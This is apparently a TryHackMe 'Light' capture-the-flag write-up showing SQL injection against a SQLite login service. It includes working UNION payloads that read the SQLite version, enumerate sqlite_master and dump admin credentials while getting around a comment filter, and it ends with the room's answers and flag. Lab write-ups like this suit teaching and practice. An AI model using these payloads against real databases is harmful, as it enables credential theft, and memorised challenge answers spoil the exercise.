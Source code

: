 # TryHackMe Light: Full Walkthrough & SQL Injection Exploit

Recently, I tackled the **"Light"** challenge on TryHackMe, which was a fun and beginner-friendly box focused on **SQL injection in SQLite**. Here's a full breakdown of how I approached and solved it, along with insights into some interesting SQLi behavior.

## Challenge Setup

When connecting to the machine on port **1337** using `nc`, we're greeted with a login prompt:

```bash
**nc 10.10.39.206 1337**
You'll see:

**Welcome to the Light database!
Please enter your username:**
Testing for SQL Injection
I started with classic test inputs:

**Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL**

**Please enter your username: admin
Username not found.**

**Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"**
That error suggests SQL queries are constructed in a vulnerable way. This confirmed SQL Injection is possible.

Understanding the Query Structure
I noticed that a malformed username like:

**smokey' '**
gave:

**Error: near "''": syntax error**
This suggests the query might be something like:

sql
**SELECT password FROM users WHERE username = '<input>' LIMIT 30;**
I also saw that using SQL comments like --, /*, or encoded characters like %0b were blocked:

**Please enter your username: smokey' --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)**
Bypassing Filters and Identifying the Database Type
At first, I assumed the backend was using MySQL, so I tested common MySQL-specific payloads like:

**' UNION SELECT @@version**
But got:

**Error: unrecognized token: "@"**
This ruled out MySQL. I also tried payloads for PostgreSQL and other DBMS, but nothing worked.

Eventually, I tried:

**Please enter your username: ' Union Select sqlite_version()'
Password: 3.31.1**
🎯 This confirmed two critical things:

The backend is using SQLite - sqlite_version() is a built-in SQLite function

SQL injection is fully working even without comments

Extracting Tables and Data
To enumerate the tables:

**Please enter your username: ' Union Select name FROM sqlite_master'
Password: admintable**
We found a table named admintable. Let's dump its contents:

**Please enter your username: ' Union Select username || '~' || password from admintable'
Password: TryHackMeAdmin~mamZtAuMlrsEy5bp6q17**
Finally, we pulled the flag:

**Please enter your username: ' Union Select password from admintable'
Password: THM{SQLit3_InJ3cTion_is_SimplE_nO?}**
Answers
What is the admin username?

✅ TryHackMeAdmin

What is the password to the username mentioned in question 1?

✅ mamZtAuMlrsEy5bp6q17

What is the flag?

✅ THM{SQLit3_InJ3cTion_is_SimplE_nO?}
